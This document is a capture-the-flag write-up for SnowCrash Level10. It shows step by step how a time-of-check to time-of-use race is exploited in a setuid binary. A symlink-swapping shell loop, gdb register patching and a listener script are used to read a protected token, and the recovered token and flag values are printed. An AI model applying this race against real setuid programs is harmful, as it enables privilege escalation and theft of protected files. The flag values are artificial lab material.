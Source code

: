 # SnowCrash

## Level10

```sh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

```sh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```
Looks like the program is supposed to send the file to a specific host, let's try to send the token to localhost
```sh
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Right issues... We create a file to have full access on it and try again
```sh
level10@SnowCrash:~$ touch /tmp/exploit
level10@SnowCrash:~$ ./level10 /tmp/exploit localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

Looks like we need to open a server on localhost:6969
```py
import SocketServer

class MyTCPHandler(SocketServer.StreamRequestHandler):
    def handle(self):
        print "Connection from:", self.client_address
        while True:
            data = self.rfile.read(64)
            if not data:
                break
            print "Received:", data

if __name__ == "__main__":
    HOST, PORT = "0.0.0.0", 6969
    server = SocketServer.TCPServer((HOST, PORT), MyTCPHandler)
    print "Server listening on {}:{}".format(HOST, PORT)
    server.serve_forever()
```
```sh
(gdb) disas main
Dump of assembler code for function main:
	...
   0x08048749 <+117>:   call   0x80485e0 <access@plt>
   0x0804874e <+122>:   test   %eax,%eax
	...
	...
	...
   0x0804889b <+455>:   call   0x80485a0 <open@plt>
    ...
End of assembler dump.
```

Access checks for user's permissions for a file
When trying to change it's return value by using gdb and setting $eax=0, we still get an error
```sh
(gdb) b *0x0804874e
Breakpoint 1 at 0x804874e: file level10.c, line 24.
(gdb) run token 0.0.0.0
Starting program: /home/user/level10/level10 token 0.0.0.0

Breakpoint 1, 0x0804874e in main (argc=3, argv=0xbffff7c4) at level10.c:24
24      level10.c: No such file or directory.
(gdb) set $eax=0
(gdb) continue
Continuing.
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. Damn. Unable to open file
```
The trick worked on Access but we got blocked by Open this time, we could use the same trick but it would be more complicated this time.

Let's try something else.

On the Access man page we can see this:
```sh
Notes
Warning: Using access() to check if a user is authorized to, for example, 
open a file before actually doing so using open(2) creates a security hole,
because the user might exploit the short time interval between checking and opening the file to manipulate it.

For this reason, the use of this system call should be avoided.
(In the example just described, a safer alternative would be to temporarily switch 
the process's effective user ID to the real ID and then call open(2).)
```
This exploit is called TOCTOU (time-of-check to time-of-use), let's create a script to realize it

```sh
level10@SnowCrash:/tmp$ echo toctou > /tmp/toctou

level10@SnowCrash:/tmp$ cat toctou.sh
while true; do
        ln -sf /home/user/level10/token /tmp/exploit
        ln -sf /tmp/toctou /tmp/exploit
done
```

This script will switch the symlink between the token file (no access) and our toctou file (with access)
We now need to run the script and keep launching the program with:

```sh
./level10 /tmp/exploit 0.0.0.0
```

Until the race condition is met and we can actually get access and open the token file

```sh
Connection from: ('127.0.0.1', 50620)
Received: .*( )*.
toctou

Connection from: ('127.0.0.1', 50621)
Received: .*( )*.
toctou

Connection from: ('127.0.0.1', 50622)
Received: .*( )*.
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```